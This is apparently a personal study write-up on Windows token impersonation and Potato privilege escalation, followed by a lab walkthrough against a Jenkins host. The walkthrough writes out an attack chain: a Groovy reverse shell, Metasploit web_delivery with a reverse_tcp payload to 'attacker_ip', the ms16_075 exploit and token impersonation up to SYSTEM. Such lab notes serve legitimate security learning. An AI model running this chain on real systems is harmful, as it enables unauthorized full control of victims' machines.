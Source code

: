 # Token Impersonation and Potato Attacks

## Token Impersonation 

Temporary keys that allow you access to a system/network without having to provide credentials each time you access a file. Think it as cookies for computers 

**Two Types:** 

- Delegate - Created for logging into a machine or using Remote Desktop 
- Impersonate - "non-interactive" such as attaching a network drive or a domain logon script 

![image](images/ti1.png)

![image](images/ti2.png)

![image](images/ti3.png)

**Alright, but what if a Domain Admin token was available?** 

![image](images/ti4.png)

![image](images/ti5.png)

![image](images/ti6.png)

![image](images/ti7.png)

To get to know about the impersonation privileges we can use 

![image](images/ti8.png)

![image](images/ti9.png)

here the ImpersonatePrivilege is enabled which could able to escalate to high privileged users 

Resources for [Impersonation Privileges](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/#eop-impersonation-privileges)

if SeAssignPrimaryToken is enabled it could vulnerable to the potato attacks 

## Potato Attack 

Resources for [Potato Attack](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/)

The idea behind this vulnerability is simple to describe at a high level:

- Trick the “NT AUTHORITY\SYSTEM” account into authenticating via NTLM to a TCP endpoint we control.

- Man-in-the-middle this authentication attempt (NTLM relay) to locally negotiate a security token for the “NT AUTHORITY\SYSTEM” account. This is done through a series of Windows API calls.

- Impersonate the token we have just negotiated. This can only be done if the attackers current account has the privilege to impersonate security tokens. This is usually true of most service accounts and not true of most user-level accounts.

So if we have service account running with the privileges to impersonate security token it is vulnerable to [juicy-potato attack](https://github.com/ohpe/juicy-potato)

In nmap result we can see there is http protocol running in the port 80 and port 50000. In port 135 RPC is running and In port 445 SMB is running.

In website in the port 50000 we found a directory askjeevs using directory busting and this directory running the jenkins. In jenkins we have script console which run groovy script so we are uploading a [groovy reverse shell](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76)

By uploading the groovy reverse shell we got the reverse shell and start the enumeration 

```
whoami  

// SeImpersonatePrivilege is enabled 
whoami /priv 

// save the systeminfo and use windows-exploit-suggester and found it is vulnerable potato attacks 
systeminfo 

// To perform potato attack metasploit framework is easier 
msfconsole 
use exploit/multi/script/web_delivery 
options 
show targets 

// the target contains python,php,powershell,etc and we set it to powershell
set target 2 
set payload windows/meterpreter/reverse_tcp 
set lhost attacker_ip 
set srvhost victim_ip 
run

// we got the script so we are going paste the script generated in the reverse shell that make the shell got in the metasploit framework
session 1 

// now we got the shell in the msfconsole 
getuid
getprivs 
run post/multi/recon/local_exploit_suggester 

// now we are going to do potato attack 
use exploit/windows/local/ms16_075_reflection 
background 
options 
set payload windows/x64/meterpreter/reverse_tcp
run 

// now we got the shell 
load incognito 
list_tokens -u 

// we have impersonate tokens (for system)
impersonate_token "NT AUTHORITY\SYSTEM"
shell 

// now we are system user 
whoami
nt authority\system 
```

here data is hidden in [alternate data stream](https://www.malwarebytes.com/blog/news/2015/07/introduction-to-alternate-data-streams), it is used to hide a data within a file 

```
// to see the alternate stream file 
dir /R 

// to read the file 
more < file_name 
```
